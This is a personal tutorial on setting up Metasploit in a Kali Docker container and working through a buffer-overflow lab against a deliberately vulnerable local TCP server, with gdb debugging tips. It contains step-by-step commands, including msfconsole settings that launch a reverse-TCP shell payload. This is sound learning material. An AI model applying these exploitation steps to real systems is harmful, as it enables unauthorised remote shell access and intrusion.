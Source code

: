 # Getting Started With MetaSploit

## Use Kali Docker image as base

- Pull Kali image
    - Discussed [here](kalilinux/kali-linux-docker)
    - `docker pull kalilinux/kali-linux-docker`

- Add metasploit and other necessary stuff on top of it
    - Use [this](./Dockerfile.kali) Dockerfile
    - `docker build -f Dockerfile.kali -t kali_image .`

- Run the image
    - `docker run -ti -p 4444:4444 -p 8080:8080 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -v ./:/u4 kali_image /bin/bash`
    - Use `--cap-add=SYS_PTRACE --security-opt seccomp=unconfined` so that gdb
    will work properly.
    - Use `-v` so you don't lose all of your work if you exit

## First Attempt

This is based off a very nice tutorial seen [here](https://taishi8117.github.io/2016/07/24/bof-metasploit/).  This tutorial assumes some of the stuff that is necessary about metasploit
without specifically saing it.  Namely:

1) Designed to attack over the network

While there are "local" exploits in the metasploit universe, they are
usually only used after an initial exploit gives access to a remote host.
For example, the [zpanel\_zsudo](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/local/zpanel_zsudo.rb)
exploit goes from user access to escalate priviledges.  This was frustrating
because I kept trying to deploy this exploit and kept running into:

```
[-] Exploit failed: The following options failed to validate: SESSION.
[*] Exploit completed, but no session was created.
```

This cryptic message meant that metasploit didn't control a shell on some remote
host, which meant it couldn't run a local exploit.  Only by *first* gaining
access to the remote system (aka establishing a meterpreter session), could the
"local" exploit be run.

> Note: It seems to be possible to trick metasploit so it thinks it's connected
to a local system, as seen [here](https://kb.help.rapid7.com/discuss/599b6461d6383b0039d7fbbd)

2) It doesn't do a great job explaing how to debug failures

I have still not been able to land an exploit, despite following the tutorial
verbatim.  Due to this effort, however, I figured out how to follow what
metasploit is trying to do via gdb.  This is possible by setting up the given
vulnerable server under gdb, then stepping through metasploits connection.

3) For simple attacks like the one in the tutorial, the binary should be *static*

This prevents having to worry about the stack being in different places, making
reply much more difficult.

## Step-by-step

1) In window (1) Setup environment

```
## Setup peda gdb plugin
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

## Add bof_lab exploit to metasplit modules
cd /u4
git clone https://github.com/taishi8117/bof_lab.git
mkdir /usr/share/metasploit-framework/modules/exploits/custom
cp bof_lab/vuln_server/bof_lab.rb /usr/share/metasploit-framework/modules/exploits/custom
```

2) In window (1), compile and run the vulnerable server

```
cd /u4/bof_lab/vuln_server
vim Makefile           ## add "-static" for replayability
make
gdb --args ./tcp__server 1234
pattern_create 1200 pattern.txt
run
```

3) In window (2), run `simple_client.py` to determine *under which conditions*
the vulnerable server crashes.

```
cd /u4/bof_lab/vuln_server
git apply patch.diff   ## found in in this repo
python simple_client.py pattern.txt 1234
```

4) The connection by `simple_client.py` should now allow the gdb session in
window (1) to continue w/o a problem.  It should have segfaulted.

```
pattern_search
p/x $esp   # Add this value to /usr/share/metasploit-framework/modules/exploits/custom
q
```

5) In window (1), set up a gdb session so you can see what metasploit is doing

```
rm ~/.gdbinit
gdb --args ./tcp__server 1234
start
```

6) In window (2), fire up metasploit and start exploiting

```
service postgresql start
ss -ant                ## check that port 5432 is open
msfconsole
setg LogLevel 3
use exploit/custom/bof_lab
set RHOST 172.17.0.4   ## Get this value in the Docker image by running `ip a`
set RPORT 1234
set LHOST 127.0.0.1
set LPORT 8888
set payload linux/x86/shell/reverse_tcp
run
```

7) In window (1) step through the program, watching the connection and the
values that get injected by the exploit.

For example, you should eventually start to see the byte-code of the injected
payload.  If you are using the `linux/x86/shell/reverse_tcp`, you can see what
it's trying to do at `/usr/share/metasploit-framework/modules/payloads/singles/linux/x86/shell_reverse_tcp.rb`

## Troubleshooting

- You can output debug/error messages using the elog (dlog, ...) function
    - https://github.com/rapid7/metasploit-framework/wiki/How-to-log-in-Metasploit

- Until you have exploited a program and injected a call to fire up a shell,
no sessions will be available

- The tutorial is a little consusing because, during the initial EIP/ESP
analysis, `simple_client.py` adds 4 bytes of it's own (the number of bytes about
to be sent).  This explains why there seems to be an "off by four" error
throughout the tutorial.
